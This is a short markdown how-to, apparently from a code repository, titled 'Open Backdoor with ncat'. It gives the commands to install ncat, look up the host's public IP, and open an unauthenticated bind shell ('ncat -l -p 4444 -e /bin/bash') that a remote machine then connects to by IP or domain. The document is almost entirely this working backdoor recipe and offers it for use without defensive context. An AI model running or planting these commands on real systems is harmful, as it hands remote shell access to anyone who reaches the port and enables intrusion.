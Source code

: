 # Open Backdoor with ncat

- Ncat allows you to use the normal cat functionality over networks.

- Install ncat on both side,
  `sudo apt install ncat`

## On Server Side

```BASH
curl http://icanhazip.com
ncat -l -p 4444 -e /bin/bash
```

- To check whether server is listened or not,
  `lsof -i -P -n | grep LISTEN`

## On Your System

- To connect the server from the port opened,
  `ncat $ipAdress 4444`
- or
  `ncat $domainname.com 4444`

